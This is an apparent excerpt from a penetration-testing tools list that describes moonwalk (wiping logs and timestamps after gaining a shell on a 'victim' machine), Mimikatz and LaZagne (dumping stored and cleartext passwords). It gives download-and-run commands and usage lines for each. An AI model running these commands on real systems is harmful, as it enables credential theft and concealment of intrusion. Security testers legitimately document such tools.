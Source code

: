 🔙moonwalk
moonwalk is a 400 KB single-binary executable that can clear your traces while penetration testing a Unix machine.

It saves the state of system logs pre-exploitation and reverts that state including the filesystem timestamps post-exploitation leaving zero traces of a ghost in the shell.

Install:

curl -L https://github.com/mufeedvh/moonwalk/releases/download/v1.0.0/moonwalk_linux -o moonwalk
Usage:

# Start moonwalk straight after getting a shell on the victim Linux endpoint
curl -L https://github.com/mufeedvh/moonwalk/releases/download/v1.0.0/moonwalk_linux -o moonwalk
chmod +x moonwalk
moonwalk start

# Once you are finished, clear your traces 
moonwalk finish
image

Image used from https://github.com/mufeedvh/moonwalk

Credential Access
🔙Mimikatz
Great tool for gaining access to hashed and cleartext passwords on a victims endpoint. Once you have gained privileged access to a system, drop this tool to collect some creds.

Install:

Download the mimikatz_trunk.7z file.
Once downloaded, the mimikatz.exe binary is in the x64 folder.
Usage:

.\mimikatz.exe
privilege::debug
image

🔙LaZagne
Nice tool for extracting locally stored passwords from browsers, databases, games, mail, git, wifi, etc.

Install: (Binary)

You can install the standalone binary from here.

Usage:

# Launch all modes
.\laZagne.exe all

# Launch only a specific module
.\laZagne.exe browsers
